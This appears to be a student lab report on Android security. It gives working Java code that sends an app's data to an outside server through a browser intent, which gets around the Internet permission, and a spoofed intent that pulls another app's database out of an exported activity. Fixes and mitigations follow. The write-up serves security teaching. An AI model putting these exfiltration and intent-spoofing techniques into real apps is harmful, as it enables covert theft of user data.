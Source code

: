 # 1 - No-permission apps

In this part, we will exfiltrate some data to a server, without using
the `Internet` permission.

First, we need to setup a web server. Here, it is a localhost server
running on port 3001, so its address is `10.0.2.2:3001` on the emulated
device.

Then, we populate the database on the app:

![Database content](./assets/database_content_p1.png)

When we want to exfiltrate the data, we just have to create an intent to
open our server webpage with GET parameters, like
`http://10.0.2.2:3001/?secret1=abc&secret2=def`.

In our example, the server received this:

![Server request](./assets/server_request_p1.png)

This data is accessible by the app because it is its own data, and thus
does not break sandboxing. It would be quite different for other kind
of data though, since file system access require specific permissions
and user interaction, and other apps database content are protected from
access by other app thanks to sandboxing.

On android and iOS, apps are sandboxed and heavily restricted, as
opposed to desktop apps. If an app wants to access a private resource
(camera, location, etc), it needs to be explicitely allowed to do so by
the OS and the user. The goal is to make these apps as secure and as
privacy-aware as possible. While on desktop all applications are
unrestricted and could access all user files with r/w permissions, on
android even a vulnerable app is limited in its action. it also hints on
illegitimate apps; for examle, the flashlight app shouldn't require
microphone access. The goal of these permissions is to add boundaries to
apps, which greatly reduce the risks to the user.

Permissions are defined in a special file, the Android manifest of the
app. This file will describe all meta-informations about the app, like
which activities are public, what resources the app should use for its
icon, and more important here what permissions are used. In the
following example, an app is requiring the internet permission. Some
permissions aren't necessarily granted though, like the microphone one.
While it needs to be declared, the user can still decide to disable it.

```xml
<uses-permission android:name="android.permission.INTERNET" />
```

However, here our application uses a simple trick to bypass this
permission system. It will open the web browser on a specific page, and
while it usually is quite innocent since the webpage cannot talk back to
the app, it is enough to leak informations using GET parameters. It
should be noted however that, first, the data accessible is only our own
data, which limits the damages possible, and that this method isn't very
discreet, as the user clearly sees its browser opening.

The code used is the following one:

```java
// This will be our URL like http://10.0.2.2:3001/?secret1=abc&secret2=def
StringBuilder evilRequest = new StringBuilder("/?");
for (Item item : mItemsData) {
	// Add each item to the exfiltration URL
	evilRequest
		.append(Uri.encode(item.getTitle()))
		.append("=")
		.append(Uri.encode(item.getInfo()))
		.append("&");
}
// Create the intent to open the browser
Intent intent = new Intent(
	Intent.ACTION_VIEW,
	Uri.parse(url + evilRequest)
);
if (intent.resolveActivity(getPackageManager()) != null) {
	// Start the intent if an an app is able to handle it
	startActivity(intent);
}
```

# 2 - Malicious intents

In the MACLocation app, the `DatabaseActivity.onCreate` method will, as
its name suggests, create the app. It will look at the caller intent and
act differently depending on its action. Here, if the field
`"ITEM_ACTION"` is set to `"GET_ITEMS_ACTION"`, it will retrieve all
database content and send it back to the caller.

The problem is that if a third-party app opens this activity with the
right action, the activity won't check which app the intent is coming
from and will exfiltrate all its database to the external app through
the result intent.

The malicious intent code is the following one:

```java
// Activity intent
Intent i = new Intent(Intent.ACTION_MAIN);
// Explicitely set the component that will receive the intent
i.setComponent(new ComponentName(
	"lbs.lab.maclocation", // Target package
	"lbs.lab.maclocation.DatabaseActivity" // Target activity
));
// MIME data type, equal to `DatabaseActivity.class.getCanonicalName()`
//  Used to trick the DatabaseActivity condition
i.setType("lbs.lab.maclocation.DatabaseActivity");
// Action, here fetch all data, but could also be SET_ITEMS_ACTION to
//  override the database content
i.putExtra(ITEM_ACTION, GET_ITEMS_ACTION);
```

Once the data retrieved, we need to deserialize it by creating our own
implementation of `lbs.lab.maclocation.Item`, and then exfiltrate it
like we did previously in the first part. To find which class to
recreate, we need to look at the logs when trying to deserialize the
object. We get a `ClassNotFoundException` that will then hint us on
which class isn't found, by logging something like `the class
lbs.lab.maclocation.Item cannot be found`. We now know which class we
need to write.

There are currently a few checks in `DatabaseActivity`:
- The MIME data type should be set to
`"lbs.lab.maclocation.DatabaseActivity"`, which is easy to set
- The `"ITEM_ACTION"` field should be set to `"GET_ITEMS_ACTION"`, again
we could guess it using the source code or a decompiler
- The caller activity should be named `MainActivity`, easy to spoof

This last check is the one which should be changed in order to fix this
vulnerability. Instead of checking the value of `getShortClassName()` to
compare the activity names, it should use `getClassName()`, that will
differentiate `lbs.lab.maclocation.MainActivity` and
`lbs.lab.macintent.MainActivity`.

Moreover, in the Android manifest, `DatabaseActivity` is wrongly marked
as `exported`, which makes it accessible to any third-party app through
an intent.

# 3 - Protections and mitigations

There could be several ways to protect against these threats, on several
levels.

On a more general note though, explicit intents should be avoided and
should even maybe be completely discarded. Apps should pass through an
app chooser and not hardwire the target in the source code, which is
error prone and can lead to several attacks like we saw previously.

## 3.1 - Against permission escape: part 1

First, the permissions could be implemented per intent, not per app. If
an app A calls an app B, and B has the internet permission but not A, A
is still able to access internet through B. However, a defense would be
for the intent from A to B to require some kind of permission, which
would force A to declare the internet permission. This would still be
pretty challenging though, as we need to be sure which permissions are
used, otherwise if B suddently adds the camera permission it would break
A even though it doesn't use it.

The solution above could also be completed using a stacktrace of chained
events, to avoid the confused app B to send a third intent that will
look legitimate for the third (or same) app.

## 3.2 - Against data leak: part 2

A way to avoid data leak would be to somehow track the data from B to A.
If the data of B is leaked back to A without a kind of approval, then
the data would be made unusable by the system. This is still a rough
idea though, as this would probably lead to many challenge to face.

Maybe we could also rank the data importance, like the information flow
security lectures we had. A high (important) app would only be able to
share its data to other high apps, and low apps would not be able to
fetch this high data. Or, to continue with data tracking, low apps could
be allowed as long as there isn't an information flow from high data to
low data, ie the data use would be severely restricted. This is an
interesting research topic, although currently there are no official
support from Android. Still, some tools exist in "regular" Java, like
Jif, or in other languages (JSFlow, LIO, etc), so an official
implementation could come at some point with enough push from the
community.

Related to this suggestion, critical informations related to banking or
health for example should probably be locked behind a password, such
that any legitimate intent would have this token in memory while
external explicit intents wouldn't be able to unlock the data. It goes
without saying that critical activities should also not be publicly
exposed in the Android manifest.

Intents could also use a kind of signature, to avoid spoofing its
origin. This is already something that can - and should - be done, but
the Android kernel should go even further. What we saw earlier is that
to deserialize the data fetched we needed to create our own
implementation of the data object. This shouldn't be allowed, and a
serialized object should only be deserializable by the implementation
in its own app, not by any third-party app, even if the implementation
is the same.
